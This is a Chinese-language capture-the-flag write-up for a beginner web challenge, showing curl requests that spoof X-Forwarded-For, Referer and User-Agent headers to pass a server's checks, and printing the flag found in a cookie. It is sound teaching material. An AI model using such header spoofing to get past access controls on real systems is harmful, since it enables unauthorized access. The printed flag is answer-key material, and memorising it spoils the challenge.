 ```yaml
---
title: ezHTTP
author: SMJB
difficulty: Baby
category: Web
image: ghcr.io/svuctf/svuctf-helloworld-2024/ez_http:latest
port: 80
writeup_author: 13m0n4de
tags:
  - http
  - headers
reference:
---
```


## 题目描述

## 题目解析

本题考察 HTTP 请求头的基础知识。

使用浏览器访问靶机地址，页面返回：

> 必须从本地访问!

这提示我们需要伪造本地访问。

在 Web 应用中，通常使用 `X-Forwarded-For` 请求头来标识请求的真实来源 IP。我们可以尝试这个头为 `127.0.0.1`：

（如果你还不清楚如何发送 HTTP 请求，可以查看[Param](../param/README.md)题解中对于 HTTP 请求和相关工具的介绍）

```
$ curl -H "X-Forwarded-For: 127.0.0.1" http://<IP>:<PORT>
```

成功绕过第一道检查后，页面显示：

> 不是 genshin.edu.cn 来的我不要

这说明网站在检查请求的来源。

在 HTTP 协议中，`Referer` 头用于指示请求是从哪个页面跳转过来的。让我们加上这个头：

```
$ curl \
    -H "X-Forwarded-For: 127.0.0.1" \
    -H "Referer: genshin.edu.cn" \
    http://<IP>:<PORT>
```

通过第二个检查后，得到新的提示：

> 请使用 svuctf 浏览器!

这是在检查 `User-Agent` 头，它用于标识发起请求的客户端类型。我们需要将其设置为 `svuctf`：

```
$ curl \
    -H "X-Forwarded-For: 127.0.0.1" \
    -H "Referer: genshin.edu.cn" \
    -H "User-Agent: svuctf" \
    http://<IP>:<PORT>
```

满足所有条件后，页面显示：

> flag在小饼干里!

这提示我们 flag 被放在了 Cookie 中。使用 curl 的 -v 参数可以查看完整的响应头：

```
$ curl -v \
    -H "X-Forwarded-For: 127.0.0.1" \
    -H "Referer: genshin.edu.cn" \
    -H "User-Agent: svuctf" \
    http://<IP>:<PORT>
```

可以在响应头中找到 `Set-Cookie` 字段，其中含有被 URL 编码过的 Flag 字符串。

```
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Thu, 31 Oct 2024 23:25:58 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/8.3.2
< Set-Cookie: flag=flag%7Bhttp_1s_s0_e%40sy%21_83bb6163346d%7D%0A
```

